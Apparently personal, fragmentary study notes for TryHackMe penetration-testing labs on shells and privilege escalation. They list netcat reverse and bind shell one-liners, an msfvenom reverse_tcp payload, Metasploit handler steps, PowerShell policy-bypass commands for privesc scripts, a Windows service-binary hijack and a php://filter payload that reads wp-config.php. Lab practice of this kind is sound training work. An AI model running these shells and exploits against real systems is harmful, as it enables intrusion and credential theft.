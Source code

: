 # R

* Remember for web/general/security
* .todo: metasploit dns
* web general | terminology | URL may have to be moved

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> hint/notes
=> network

* https://tryhackme.com/room/introtoshells
* If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
* nc ip port -e /bin/bash (rev shell)
* nc -lvnp port -e /bin/bash (bind shell)
* this is not included in most versions of netcat
* `mkfifo /tmp/f; nc XXX < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` (listener for our wxw shell)
* https://tryhackme.com/room/introtoshells (Windows)
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional
* `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
* staged reverse shell payloads and stageless
* exploit/multi/handler
  * It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads
  * `set PAYLOAD X`
  * `exploit -j`
* socat is a sort of ncat+more, but not installed by default, and harder to learn.
  * Read again the section: https://tryhackme.com/room/introtoshells
  * Can encrypt, may bypass an IDS: https://tryhackme.com/room/introtoshells
* Socat: transfer the socat binary
* Reverse shells/... note lasty

<hr>

## Overconfidence

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/allinonemj

* Kali right-arrow
* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)
* not finished aza.